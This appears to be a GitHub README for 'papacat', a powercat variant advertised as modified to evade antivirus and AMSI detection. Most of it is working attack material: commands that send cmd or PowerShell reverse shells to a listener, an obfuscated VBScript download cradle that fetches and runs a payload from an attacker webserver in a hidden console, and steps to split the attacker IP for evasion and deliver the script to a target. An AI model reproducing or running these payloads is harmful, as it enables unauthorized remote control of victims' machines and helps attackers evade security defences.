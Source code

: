      powercat - Netcat, The Powershell Version
     Github Repository: https://github.com/besimorhino/powercat
     
     This script attempts to implement the features of netcat in a powershell
     script. It also contains extra features such as built-in relays, execute
     powershell, and a dnscat2 client. 
     
     Redpill papacat version its a modified version of powercat to bypass AV AMS1 detection.
     
     
     Usage: papacat [-c or -l] [-p port] [options]
     -c  <ip>        Client Mode. Provide the IP of the system you wish to connect to.
                     If you are using -dns, specify the DNS Server to send queries to.
            
     -l              Listen Mode. Start a listener on the port specified by -p.
  
     -p  <port>      Port. The port to connect to, or the port to listen on.
  
     -e  <proc>      Execute. Specify the name of the process to start.
  
     -ep             Execute Powershell. Start a pseudo powershell session. You can
                     declare variables and execute commands, but if you try to enter
                     another shell (nslookup, netsh, cmd, etc.) the shell will hang.
            
     -t  <int>       Timeout. The number of seconds to wait before giving up on listening or
                     connecting. Default: 60
            
     -i  <input>     Input. Provide data to be sent down the pipe as soon as a connection is
                     established. Used for moving files. You can provide the path to a file,
                     a byte array object, or a string. You can also pipe any of those into
                     papacat, like 'aaaaaa' | papacat -c 10.1.1.1 -p 80
            
     -o  <type>      Output. Specify how papacat should return information to the console.
                     Valid options are 'Bytes', 'String', or 'Host'. Default is 'Host'.
            
     -of <path>      Output File.  Specify the path to a file to write output to.
            
     -d              Disconnect. papacat will disconnect after the connection is established
                     and the input from -i is sent. Used for scanning.
            
     -rep            Repeater. papacat will continually restart after it is disconnected.
                     Used for setting up a persistent server.
                  
     -g              Generate Payload.  Returns a script as a string which will execute the
                     papacat with the options you have specified. -i, -d, and -rep will not
                     be incorporated.
                  
     -ge             Generate Encoded Payload. Does the same as -g, but returns a string which
                     can be executed in this way: powershell -E <encoded string>
     -h              Print this help message.
     
     Examples:
     Listen on port 8000 and print the output to the console.
         papacat -l -p 8000 -v
  
     Connect to 10.1.1.1 port 443, send a shell, and enable verbosity.
         papacat -c 10.1.1.1 -p 443 -e cmd -v
  
     Send a file to 10.1.1.15 port 8000.
         papacat -c 10.1.1.15 -p 8000 -i C:\inputfile
  
     Write the data sent to the local listener on port 4444 to C:\outfile
         papacat -l -p 4444 -of C:\outfile
  
     Listen on port 8000 and repeatedly server a powershell shell.
         papacat -l -p 8000 -ep -rep -v

<br />

# papacat Manual Execution

<br />

#### Download cmdlet
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/utils/papacat_rev_shell/papacat.ps1" -OutFile "papacat.ps1"
```

<br />

#### handler (listenner)
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -l -p 666 -t 120 -v
```

#### Cmd Client (payload)
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -c 192.168.1.72 -e cmd.exe -p 666 -v
```

#### powershell Client (payload)
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -c 192.168.1.72 -ep -p 666 -v
```

---

<br /><br />

# Automation - Obfuscation ( @Meterpeter )

<br />

#### [update.vbs] download crandle
```vbscript
' Author: @r00t-3xp10it (ssa)
' Application: papacat download crandle
' Description:
'   This VBS will download Trigger.ps1 (rev tcp shell) from attacker webserver
'   imports module and executes module in a hidden console. ( background )
' ---

dIm Char,Cmd,Layback
Char="@!COLOMBO@!"+":007:VIRIATO@!"+"NAVIGATOR@!"
Layback=rEpLaCe(Char, "@!", ""):Cmd=rEpLaCe(Layback, ":007:", "")

set ObjConsole = CreateObject("Wscript.Shell")
ObjConsole.Run("powershell.exe cd $Env:TMP;iwr -Uri http://"+Cmd+"/Trigger.ps1 -OutFile Trigger.ps1;Import-Module -Name .\Trigger.ps1 -Force;Trigger-c Server@Local@host -e cmd.exe -p 666"), 0
}
```

<br />

#### Download cmdlet
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/utils/papacat_rev_shell/papacat.ps1" -OutFile "papacat.ps1"
```

#### Generate - Cmd Client (payload) Obfucated
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -c 192.168.1.72 -e cmd.exe -p 666 -g > Trigger.ps1
```

<br />

## The next section requires using terminal to execute commands ...
- Get Local host adress to config the crandle
- replace <b><i>8080</i></b> by <b><i>apache\http.server</i></b> port (webserver)
```powershell
$Local_Host = ((ipconfig | findstr [0-9].\.)[0]).Split()[-1]
$FirstRange = $Local_Host[0,1,2,3,4] -join ''                          # 192.1   - COLOMBO
$SeconRange = $Local_Host[5,6,7,8] -join ''                            # 68.1    - VIRIATO
$TrithRange = $Local_Host[9,10,11,12,13,14,15,16,17,18,19,20] -join '' #.72
$LastRanges = "$TrithRange" + ":" + "8080" -join ''                    #.72:8080 - NAVIGATOR
```
- Replace the attacker ip addr (obfuscated\split) on vbs crandle
```powershell
((Get-Content -Path "update.vbs" -Raw) -Replace "VIRIATO","$SeconRange")|Set-Content -Path "update.vbs"
((Get-Content -Path "update.vbs" -Raw) -Replace "COLOMBO","$FirstRange ")|Set-Content -Path "update.vbs"
((Get-Content -Path "update.vbs" -Raw) -Replace "NAVIGATOR","$LastRanges")|Set-Content -Path "update.vbs" 
((Get-Content -Path "update.vbs" -Raw) -Replace "Server@Local@host","$Local_Host")|Set-Content -Path "update.vbs" 
``` 

<br />

- start the handler `Import-Module -Name .\papacat.ps1 -Force;papacat -l -p 666`
- Store update.vbs + copy Trigger.ps1 on attacker webserver (port 8080)
- send update.vbs url to target to trigger the client download (Trigger.ps1)
- execute update.vbs on target machine to get the connection back

![papacat](https://user-images.githubusercontent.com/23490060/155600050-539eeac6-26ee-46e0-a8eb-061daac5e38c.png)

<br /><br />

#### URL
https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1<br />
https://www.ired.team/offensive-security/defense-evasion/bypassing-ids-signatures-with-simple-reverse-shells

# Final Notes
Dont Test this on VirusTotal or similar websites ...
